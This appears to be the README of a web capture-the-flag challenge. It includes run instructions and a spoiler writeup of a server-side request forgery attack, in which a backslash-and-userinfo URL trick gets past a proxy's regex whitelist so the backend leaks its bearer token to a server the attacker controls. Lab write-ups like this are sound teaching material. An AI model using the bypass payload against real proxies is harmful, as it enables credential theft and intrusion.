

# Whoami

<p align="center">
    
    <br />
    <i>Main screen</i>
</p>

A medium difficulty <ins>web challenge</ins> where the players are given two ports.

## How to run

The image was tested with podman, but should work fine with docker as well.

0. Clone the repo and cd to the root folder of the particular challenge
1. Build the image: `podman build -t ctf-whoami:latest .`
2. Run the image: `podman rm -f ctf-whoami; podman run --rm -it -p 53499:53499 -p 25998:25998 -e BACKEND_PORT=53499 -e PROXY_PORT=25998 --name ctf-whoami ctf-whoami:latest`
3. Share the ports with the players

<details>
<summary>Writeup (Spoiler)</summary>

If the players visit the right port, they can quickly find themselves on a website that seems to be some kind of API documentation. It has two endpoints listed. One returns a random cat or dog image everytime its pressed. This is how the browser sends those requests:

```
curl 'http://localhost:53499/image' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'Connection: keep-alive' -H 'Referer: http://localhost:53499/' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-origin' -H 'DNT: 1' -H 'Sec-GPC: 1'
```

Nothing too interesting. There is also a `/classify` endpoint, which returns wrong api key:

```
[steve@todo ~]$ curl localhost:53499/classify
Wrong API key
```

But if we upload a picture and don't specify a key, we see that it goes to a different endpoint:

```
curl 'http://localhost:25998/proxy?url=http://whoami.honeylab.hu/classify' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/119.0' -H 'Accept: application/json, text/plain, */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br' -H 'X-Playground: true' -H 'Content-Type: multipart/form-data; boundary=---------------------------123969975725992247842574201537' -H 'Origin: http://localhost:53499' -H 'Connection: keep-alive' -H 'Referer: http://localhost:53499/' -H 'Sec-Fetch-Dest: empty' -H 'Sec-Fetch-Mode: cors' -H 'Sec-Fetch-Site: same-site' -H 'DNT: 1' -H 'Sec-GPC: 1' --data-binary $'-----------------------------123969975725992247842574201537\r\nContent-Disposition: form-data; name="image"; filename="image.jpg"\r\nContent-Type: image/jpeg\r\n\r\n-----------------------------123969975725992247842574201537--\r\n'
```

Maybe we can trick that proxy to request a URL controlled by us? Let's try it out:

```
[steve@todo ~]$ curl 'http://localhost:25998/proxy?url=http://ifconfig.co/json'
Unauthorized
[steve@todo ~]$ curl 'http://localhost:25998/proxy?url=http://ifconfig.co/json' -H 'X-Playground: true'
Invalid url
```

But if we request a URL from the same subdomain:

```
[steve@todo ~]$ curl 'http://localhost:25998/proxy?url=http://whoami.honeylab.hu/image' -H 'X-Playground: true'
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

We get a picture back. We also get a proper 404 back in case:

```
[steve@todo ~]$ curl 'http://localhost:25998/proxy?url=http://whoami.honeylab.hu/random' -H 'X-Playground: true' -I
HTTP/1.1 404 Not Found
Access-Control-Allow-Headers: Accept, Content-Type, Content-Length, Accept-Encoding, X-Playground
Access-Control-Allow-Methods: POST, OPTIONS, GET, HEAD
Access-Control-Allow-Origin: *
Date: Fri, 03 Nov 2023 12:56:02 GMT
```

So there is probably a whitelist on the URLs. Can we trick it somehow?

We can try to use the username:password format from the URL spec, but in order for the backend to send the actual request to our arbitary server, we need to read more about how this URL RFC specifies things: https://datatracker.ietf.org/doc/html/rfc3986

So apparently `\` ends the URL. This behavior can be reproduced with firefox actually.

But the included [poc.py](poc.py) script does the heavy lifting for us. It essentially spawns a web server and sends a proxy request with the following URL query string: `http://127.0.0.1:8888\@{base_url}/random`. This causes the backend regex parser to assume that we are actually trying to reach base_url, but in reality the request will be made to our server.

```
[steve@todo ctf-whoami]$ python3 ./poc.py 
Authorization Header: Bearer cq23{n3ver_p4rS6_URL5_w1th_r3g3x_1066f6cec9dd3d4274940c52a8d1b3d0}
HTTP Call to http://localhost:25998/proxy - Status: 200
Request Captured
```

And we got our flag!
</details>